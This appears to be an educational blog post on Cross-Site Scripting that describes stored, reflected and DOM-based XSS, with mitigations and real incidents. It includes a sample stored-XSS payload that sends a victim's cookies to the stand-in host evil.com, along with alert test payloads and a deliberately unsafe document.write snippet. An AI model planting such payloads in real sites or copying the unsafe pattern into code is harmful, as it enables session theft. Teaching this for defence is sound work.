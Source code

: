 ```yaml
---
title: 'Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation'
date: 2025-07-24
layout: post
tags: [OWASP, Web Security, XSS]
---
```




\## Table of Contents

\- \[What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting)

\- \[Types of XSS](#types-of-xss)

&nbsp; - \[1. Stored XSS](#1-stored-xss)

&nbsp; - \[2. Reflected XSS](#2-reflected-xss)

&nbsp; - \[3. DOM-Based XSS](#3-dom-based-xss)

\- \[How XSS Attacks Work](#how-xss-attacks-work)

\- \[Real-World Examples](#real-world-examples)

\- \[General Mitigation Strategies](#general-mitigation-strategies)

\- \[Conclusion](#conclusion)

\- \[References](#references)



\## What is Cross-Site Scripting?



Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the \[OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.



---



\## Types of XSS



\### 1. Stored XSS

Definition:

Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.



How it works:

1\. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.

2\. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.

3\. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.



Example payload:

<script>fetch('https://evil.com?cookie=' + document.cookie)</script>



Mitigation:

Sanitize and validate all user inputs before storing them; use context-aware output encoding (HTML, JavaScript, URL encoding); avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).



---



\### 2. Reflected XSS

Definition:

Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.



How it works:

1\. Attacker crafts a malicious link containing JavaScript code in a parameter.

2\. Victim clicks the link and sends a request to the vulnerable application.

3\. The application reflects the malicious input in its response, which the browser executes.



Example payload in URL:

https://example.com/search?q=<script>alert('XSS')</script>



Mitigation:

Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.



---



\### 3. DOM-Based XSS

Definition:

DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.



How it works:

1\. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.

2\. The vulnerable JavaScript code inserts this data directly into the page without escaping.

3\. The browser executes the malicious code.



Example vulnerable code:

document.write(location.hash);



Example attack URL:

https://example.com/page#<script>alert('XSS')</script>



Mitigation:

Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.



---



\## How XSS Attacks Work

1\. Injection: The attacker injects malicious JavaScript into a vulnerable page.

2\. Execution: The victim’s browser renders the page and runs the script.

3\. Impact: The attacker can steal session cookies, perform actions as the user, or spread malware.



---



\## Real-World Examples

\- MySpace Samy Worm (2005): A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.

\- British Airways Breach (2018): Malicious JavaScript was injected to steal payment details from thousands of customers.



---



\## General Mitigation Strategies

Validate and sanitize all user inputs on both client and server; use context-specific output encoding; enforce a strong Content Security Policy (CSP); avoid unsafe JavaScript functions and DOM manipulation methods; use security features provided by frameworks; regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.



---



\## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.



---



\## References

\- OWASP: Cross-Site Scripting (XSS) - https://owasp.org/www-community/attacks/xss/

\- PortSwigger: XSS Cheat Sheet - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

\- Google CSP Evaluator - https://csp-evaluator.withgoogle.com/



